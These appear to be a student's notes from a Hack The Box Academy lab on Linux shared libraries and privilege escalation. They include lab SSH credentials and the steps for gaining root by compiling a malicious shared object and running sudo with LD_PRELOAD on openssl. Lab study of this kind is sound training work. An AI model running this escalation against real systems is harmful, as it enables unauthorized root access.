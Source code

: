 #### Static Libraries
- Denoted by .a extension
- cannot be altered when compiled
#### Dynamically Linked Libraries
- denoted by .so extension
- can be modified to control the execution of the program that calls them

#### Specifying the locations of dlls
- Environment variables `LD_RUN_PATH`,  `LD_LIBRARY_PATH`, `LD_PRELOAD`
- placing them in default directories /lib or /usr/lib
- specifying another directory containing the libraries within the `/etc/ld.so.conf`
#### List all libraries required by /bin/ls
```
ldd /bin/ls
```

### Using LD_PRELOAD to Priv Esc
- Need a sudo user

## Questions

IP
```
10.129.62.179
```

SSH
```
ssh htb-student@10.129.62.179
```

Password
```
Academy_LLPE!
```

What privileges does the user have?
![[Pasted image 20240622210013.png]]

User has the LD_PRELOAD env var set and can execute openssl with sudo

Compile script
```
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Execute script
```
sudo LD_PRELOAD=./root.so /usr/bin/openssl
```

![[Pasted image 20240622210324.png]]

